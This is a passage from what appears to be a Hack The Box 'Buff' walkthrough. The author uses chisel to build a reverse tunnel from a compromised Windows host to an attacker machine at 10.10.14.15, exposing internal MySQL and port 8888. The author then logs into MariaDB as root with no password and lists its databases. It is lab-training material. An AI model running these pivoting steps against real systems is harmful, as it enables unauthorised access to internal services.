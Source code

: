 Normally on Linux, I would use SSH to forward these ports to my Kali machine, but this won't work on Windows without providing credentials to the current account.

I used [chisel](https://github.com/jpillora/chisel) to forward the local ports to my Kali machine. Download the Linux and Windows version. The Linux executable will be used as the server running on Kali, and the Windows executable is the client that will connect back to Kali.

```
SERVER (LINUX): ./chisel server --reverse --port 4445
CLIENT (WINDOWS): .\chisel.exe client 10.10.14.15:4445 R:3306:localhost:3306 R:8888:localhost:8888
```

With the `chisel` set up on Kali, run the `chisel` client to open up the two ports. You should see the connection work:

```
PS C:\Users\shaun> .\chisel.exe client 10.10.14.15:4445 R:3306:localhost:3306 R:8888:localhost:8888

2021/11/24 04:14:27 client: Connected (Latency 202.2782ms)
```

```
[tyco㉿4YE: ~/htb/buff]$ ./chisel server --reverse --port 4445
2021/11/23 19:58:56 server: Reverse tunnelling enabled
2021/11/23 19:58:56 server: Fingerprint TzUF5zd5ccYcMud5O5HpCFSfWdGxhN5+oDhVVkozBh0=
2021/11/23 19:58:56 server: Listening on http://0.0.0.0:4445
2021/11/23 20:03:02 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening
2021/11/23 20:03:02 server: session#1: tun: proxy#R:8888=>localhost:8888: Listening
```

# MySQL database

Now, let's access the MySQL database from our Kali machine

```
[tyco㉿4YE: ~/htb/buff]$ mysql -u root -p -h 127.0.0.1

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 131
Server version: 10.4.11-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

We got in with the default root account that has no password!

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| table              |
| test               |
+--------------------+
6 rows in set (1.146 sec)

MariaDB [table]> use phpmyadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```
